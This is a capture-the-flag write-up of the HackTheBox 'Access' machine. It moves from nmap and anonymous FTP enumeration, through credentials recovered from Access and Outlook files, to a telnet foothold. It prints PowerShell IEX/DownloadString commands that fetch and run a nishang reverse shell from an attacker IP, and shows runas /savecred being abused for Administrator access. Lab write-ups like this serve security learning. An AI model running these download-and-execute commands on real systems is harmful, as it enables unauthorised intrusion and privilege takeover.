 ```yaml
---
title: "HackTheBox - Access"
author: Nasrallah
description: ""
date: 2023-03-25 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, windows, easy, ftp]
img_path: /assets/img/hackthebox/machines/access
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Access](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

![](0.png)

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
Nmap scan report for 10.10.10.98
Host is up (0.15s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: PASV failed: 425 Cannot open data connection.
23/tcp open  telnet?
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: MegaCorp
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

We ftp with anonymous login enabled, telnet on port 23 and MS IIS http web server.

### Web

Let'a check the web page.

![](1.png)

Nothing really interesting, I done a directory scan and nothing came up.

### FTP

Let's login to the ftp server as anonymous

![](2.png)

We found two interesting files, `backup.mbd` and `Access Control.zip`.

The `.mdb` file is a Microsoft Access file, we can use a [MDBOpener.com](https://www.mdbopener.com/) to read it.

![](3.png)

Checking the different tables we find the `auth_user` table with some passwords.

![](4.png)

### Zip file

Let's unzip the zip file.

![](5.png)

We couldn't unzip using the tool `unzip` but `7z` came in clutch but asked us for a password.

Backup to the `auth_user` table we see the username `engineer` and this is the same name of the directory where we got the zip file from the ftp server, so we use `engineer`'s password to unzip the file.

After unzipping the file we got a file called `Access Control.pst` which is an Outlook file.

We can use an online [pst-viewer](https://goldfynch.com/pst-viewer/index.html) to read the file.

![](6.png)

## **Foothold**

We got credentials we user `security`, now let's use telnet to connect to the target.

![](7.png)

We got a shell but we can't even backspace, let's get another shell using `nishang powershelltcp.ps1`.

```shell
powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.17.90/shell.ps1')"
```

![](9.png)

## **Privilege Escalation**

Checking public desktop we find the following.

![](8.png)

We found a `.lnk` file that's calling `runas` with `Administrator`, and it also used `savedcred` flag which means there are credentials cached for `Administrator`, we can confirm that by running `cmdkey /list` which show there is indeed Administrator cached creds.

Using the same technique we used to get a PS shell, we change the ip the nishang `.ps1` file, serve the file and setup a listener.

On the telnet shell we execute this command:

```shell
runas /user:ACCESS\Administrator /savecred "powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.17.90/shell.ps1')"
```

![](10.png)

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
